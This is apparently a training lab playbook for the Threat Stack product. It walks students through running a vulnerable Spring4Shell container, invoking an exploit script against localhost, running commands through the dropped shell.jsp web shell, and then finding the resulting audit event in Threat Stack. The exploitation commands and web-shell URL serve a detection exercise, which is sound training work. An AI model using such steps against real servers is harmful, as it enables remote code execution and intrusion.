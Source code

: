 Threat Stack Playbooks
======================

Spring4Shell Playbook
---------------------

First, Access the Linux Ubuntu 20.04 LTS Box via WebShell.

.. image:: _static/UbuntuWebshell.png

Next, navigate to the spring4shell directory by entering the following command:

.. code-block::
   
   cd spring4shell
   
.. image:: _static/CDDirectoryCommand.png


Next, to spin up the vulnerable Spring server, run the following command: 


.. code-block::

   docker run -p 80:8080 spring4shell
   
   
after you run the command, you should see the following screen.

.. image:: _static/Spring4ShellScreen.png


Go back to UDF and open another shell connection the linux host again. Then run the following command

.. code-block::
   
   curl localhost: curl localhost/helloworld/greeting
   
   
The following output should manifest.

.. image:: _static/CurlOutput.png


Now to exploit, run the following command in the spring4shell directory. Navigate to the spring4shell directory by running the following commands.

.. code-block::
   
   cd spring4shell
   python3 exploit.py --url 'http://localhost/helloworld/greeting'
   
The following output should manifest.

.. image:: _static/CurlOutput2.png
   
Now run the following command via shell


.. code-block::
   
   curl http://localhost/shell.jsp?cmd=pwd --output -
   
   
.. note::
   
   Run the --output flag as this is required for the output to display


then run:

.. code-block::

   touch yougotpwndStudentN.txt

If you navigate to event search and enter the following query and event search, you will see your command.

.. code-block::

   event_type = "audit" and command = "touch"


.. image:: _static/pwned2.gif

